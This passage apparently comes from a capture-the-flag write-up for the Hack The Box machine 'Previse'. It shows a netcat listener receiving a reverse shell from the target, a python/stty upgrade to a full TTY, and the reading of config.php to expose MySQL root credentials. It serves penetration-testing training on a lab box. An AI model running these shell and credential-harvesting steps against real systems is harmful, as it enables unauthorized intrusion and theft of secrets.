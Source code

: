 ```bash
┌──(kali㉿kali)-[~/Desktop/htb/privesc]
└─$ nc -lvnp 1234                
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.104] 48468
bash: cannot set terminal process group (1399): Inappropriate ioctl for device
bash: no job control in this shell
www-data@previse:/var/www/html$ whoami
whoami
www-data
www-data@previse:/var/www/html$
```

- We got the shell as `www-data` let's upgrade the shell.

```bash
www-data@previse:/var/www/html$ python3 -c "import pty;pty.spawn('/bin/bash')"
<tml$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@previse:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 1234
                                                                                                                     
┌──(kali㉿kali)-[~/Desktop/htb/privesc]
└─$ stty raw -echo; fg                                                                                     148 ⨯ 1 ⚙

[1]  + continued  nc -lvnp 1234

www-data@previse:/var/www/html$

```

- We have a stable shell. Even if we do Ctrl-C, that doesn't break the shell.
- On the home page, `www-data` we have a `config.php` file with the MySQL credentials.
- 

```bash
www-data@previse:/var/www/html$ ls
accounts.php		    download.php       footer.php  logs.php
android-chrome-192x192.png  favicon-16x16.png  header.php  nav.php
android-chrome-512x512.png  favicon-32x32.png  index.php   site.webmanifest
apple-touch-icon.png	    favicon.ico        js	   status.php
config.php		    file_logs.php      login.php
css			    files.php	       logout.php
www-data@previse:/var/www/html$ cat config.php 
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
www-data@previse:/var/www/html$
```
